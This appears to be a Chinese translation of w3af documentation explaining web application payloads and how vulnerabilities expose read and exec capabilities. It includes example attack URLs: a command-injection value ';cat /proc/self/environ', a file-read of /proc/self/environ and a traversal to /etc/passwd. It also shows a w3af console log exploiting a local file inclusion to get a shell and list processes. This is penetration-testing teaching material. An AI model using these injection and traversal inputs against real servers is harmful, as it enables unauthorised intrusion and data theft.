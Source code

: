 # Web 应用的攻击载荷 (Web Application Payloads)

## 简介 (Introduction)

在任何 Web 应用程序中都可以找到的数百种不同的 Web 应用程序漏洞中，**只有一小部分可以使入侵者直接执行操作系统命令**。而且，如果我们继续深入研究这组为攻击者提供执行系统命令权限的漏洞，其中只有一到两种能在正常场景下给予攻击者提升权限的机会。

请始终记住，渗透测试器的目标是在远程服务器中获得 `root shell` ，Web 应用程序似乎比传统的内存破坏漏洞提供了更多的抵抗力。如果您有一个 `Metasploit` 框架与远程服务器安装相匹配的 `0day` 漏洞，那么这是正确的，但是如果没有，**Web 可能是唯一的攻击途径**。

到目前为止，漏洞利用与权限提升的过程必须被手动执行，这在许多情况下可能需要几个小时（取决于 Web 应用程序渗透测试人员的技能），并且存在无法达成目标的可能性。

当前 Web 应用程序的攻击载荷是从 80 年代开始在老旧的学校系统上进行内存破坏的攻击载荷演变而来。
每个攻击载荷解决的基础问题很简单，“现在我有访问权限了，下一步该怎么做?”。在内存破坏的攻击载荷中，很容易就可以达到任意任务的执行，因为成功的漏洞利用时，攻击者可以控制远程 CPU 和 内存，这使得攻击者可以实行任意系统调用 (operating system calls) 。 在拥有执行任意系统调用的能力下，新建一个用户，执行任意命令、上传文件等操作都是可能实现的。

在 Web 应用安全的场景则是完全不同的，攻击者受限于 web 应用脚本暴露的有限的 "系统调用"。举个例子，

* 任意文件读取漏洞 暴露了 `read()` 系统调用
* 系统命令执行漏洞 暴露了 `exec()` 系统调用
* SQL 注入漏洞 暴露了 `read(), write()` 以及 潜在的 `exec()` 系统调用


Web 应用程序攻击载荷是一小段代码，这些代码在入侵者的机器中运行，然后由 Web 应用程序漏洞利用程序转换为 GET 和 POST 请求的组合，以发送到远程 Web 服务器。 例如， 一个模拟 系统调用 `read ()` 的调用可以是 `/proc/self/environ` 作为参数，的任意文件读取漏洞： `http://host.tld/read.php?file=/proc/self/environ` 。

另一个请求则利用了系统命令执行漏洞（来达到相似的结果）:
`http://host.tld/os.php?cmd=;cat /proc/self/environ`

## 运行攻击载荷 (Running Web Application Payloads)


以下是一个 w3af 扫描某个脆弱应用的控制台日志 dump，在这个场景中 w3af 利用了某个漏洞，并且执行了 `list_processes` 攻击载荷。

```bash
w3af>>> plugins
w3af/plugins>>> audit lfi
w3af/plugins>>> back
w3af>>> target
w3af/config:target>>> set target http://localhost/local_file_read.php?file=section.txt
w3af/config:target>>> back
w3af>>> start
Found 1 URLs and 1 different points of injection.
The list of URLs is:
- http://localhost/local_file_read.php
The list of fuzzable requests is:
- http://localhost/local_file_read.php | Method: GET | Parameters: (file="section.txt")
Starting lfi plugin execution.
Local File Inclusion was found at: "http://localhost/local_file_read.php", using HTTP method GET.
The sent data was: "file=../../../../../../../../etc/passwd".
This vulnerability was found in the request with id 3.
Finished scanning process.
w3af>>> exploit
w3af/exploit>>> exploit local_file_reader
local_file_reader exploit plugin is starting.
- [0] <shell object (rsystem: "*nix")>
Please use the interact command to interact with the shell objects.
w3af/exploit>>> interact 0
Execute "end_interaction" to get out of the remote shell. Commands typed in this menu will
run through the local_file_reader shell
w3af/exploit/local_file_reader-0>>> payload list_processes
...
PID   NAME   STATUS          CMD
1     init   S (sleeping)    /sbin/init
5183  mysqld S (sleeping)    /usr/sbin/mysqld
```